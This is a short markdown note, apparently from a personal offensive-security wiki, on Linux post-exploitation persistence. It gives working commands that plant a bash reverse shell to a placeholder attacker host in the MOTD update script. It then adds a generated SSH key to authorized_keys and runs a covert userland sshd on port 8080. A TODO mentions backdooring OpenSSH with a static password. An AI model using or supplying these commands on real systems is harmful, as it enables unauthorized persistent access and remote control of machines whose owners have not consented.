 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - network-protocols
  - ssh
  - linux
---
```

# Living off the Land

## 01 - Message of the Day (MOTD)

```
# cat >> /etc/update-motd.d/00-header << EOF
bash -c 'bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1' &
EOF
```

## 02 - Run SSH Server as Userland

Instead of dropping external binaries, reverse shells, or modifying firewall configuration with elevated permissions. Just executing the SSH daemon service greater than port 1023 or allowing incoming network traffic depending on the firewall configuration (e.g. `8080` HTTP proxy) to setup a temporary working directory in a multiplexer ([[Tmux|`tmux`]] or [[Screen|`screen`]]) in the background.

```
$ mkdir -p ~/.ssh 2>/dev/null
ssh-keygen -q -N "" -t ed25519 -f sshd_key
cat sshd_key.pub >> ~/.ssh/authorized_keys
cat sshd_key && rm -f sshd_key
$(command -v sshd) -f /dev/null -o HostKey=$(pwd)/sshd_key -o GatewayPorts=yes -p 8080
```

## 03 - Backdoor OpenSSH Server

TODO: Show the steps to modify the source code and then compile it by inserting a static username and password to always authenticate.

---
## References

### Backlinks

- [[Linux Post Exploitation Persistence References]]

### Github

- [hackerschoice: THC's favourite Tips, Tricks & Hacks (Cheat Sheet)](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

### Pikami

- [Pikami: Backdooring OpenSSH Server](https://pikami.org/blog/backdooring-openssh-server/)